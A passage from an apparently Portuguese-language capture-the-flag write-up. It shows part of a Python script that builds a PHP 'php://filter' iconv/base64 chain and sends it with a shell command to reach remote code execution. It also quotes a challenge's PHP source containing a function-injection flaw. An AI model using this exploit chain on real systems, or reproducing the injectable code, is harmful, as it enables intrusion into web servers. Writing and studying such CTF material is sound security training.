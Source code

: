 ```python
filters += "convert.iconv.UTF8.UTF7|"


for c in base64_payload[::-1]:
        filters += conversions[c] + "|"
        # decode and reencode to get rid of everything that isn't valid base64
        filters += "convert.base64-decode|"
        filters += "convert.base64-encode|"
        # get rid of equal signs
        filters += "convert.iconv.UTF8.UTF7|"

filters += "convert.base64-decode"

final_payload = f"php://filter/{filters}/resource={file_to_use}"

r = requests.get(url, params={
    "0": command,
    "action": "include",
    "dumpfile": final_payload
})

print(r.text)
```

## ToxycUser
Descrição: "The website is under development, some messages of the developers can be interesting vector of attack."
Target: https://toxycuser.boita.tech/
Source code: [https://github.com/boitatech/aratu-downloads-public/raw/master/ToxycUser.zip](https://github.com/boitatech/aratu-downloads-public/raw/master/ToxycUser.zip "https://github.com/boitatech/aratu-downloads-public/raw/master/ToxycUser.zip")

Analisando o source code percebemos que o arquivo func.php está vulnerável a function injection:
```php
function exist($action, $id) {
  if (isset($action) || isset($id)) {
    $action("$id"); //function injection here
  }
}


if ($action  == "logs") { 
  exist($action, $id);
} elseif ($client == $server) { // localhost only
  exist($action, $id);
} else {
  echo "<h1>Apenas pra acesso local!</h1>";
}
```
Mas pra controlar a função a ser executadas precisamos enviar a request do localhost :(
